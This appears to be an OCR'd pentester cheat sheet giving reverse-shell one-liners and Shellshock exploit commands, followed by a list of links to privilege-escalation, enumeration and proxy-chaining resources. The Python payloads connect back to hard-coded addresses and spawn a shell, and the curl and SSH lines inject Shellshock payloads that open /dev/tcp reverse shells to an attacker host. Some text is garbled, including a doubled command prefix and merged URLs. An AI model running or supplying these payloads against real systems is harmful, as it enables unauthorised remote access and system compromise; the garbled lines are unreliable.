 Reverse shell using interpreters (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

    e: python -c python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"

Shellshock

    curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" TARGETADDRESS/cgi-bin/status
    curl -x 192.168.28.167:PORT -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.28.169/1234 0>&1" 192.168.28.167/cgi-bin/status
    ssh username@IPADDRESS '() { :;}; /bin/bash'//Shellshock over SSH

Resources & Links
Windows Privilege Escalation

http://www.fuzzysecurity.com/tutorials/16.html

https://toshellandback.com/2015/11/24/ms-priv-esc/
SQL & Apache Log paths

http://www.itninja.com/blog/view/mysql-and-apache-profile-log-path-locations
Recon

https://bitvijays.github.io/blog/2015/04/09/learning-from-the-field-intelligence-gathering/
Cheat Sheets (Includes scripts):

http://pentestmonkey.net/

https://highon.coffee/blog/cheat-sheet/

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
Meterpreter Stuff

http://netsec.ws/?p=331
Proxy Chaining

apt-get install sshuttle

https://github.com/sshuttle/sshuttle

https://github.com/rofl0r/proxychains-ng

https://www.offensive-security.com/metasploit-unleashed/proxytunnels/
Huge collection of common commands and scripts as well as general pentest info

https://bobloblaw.gitbooks.io/security/content/
Scripts

https://github.com/rebootuser/LinEnum

https://github.com/mzet-/linux-exploit-suggester

https://github.com/azmatt/windowsEnum

https://github.com/leebaird/discover

https://nmap.org/nsedoc/
Pentester Bookmarks, huge collection of blogs, forums, and resources.

https://code.google.com/archive/p/pentest-bookmarks/wikis/BookmarksList.wihttps://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
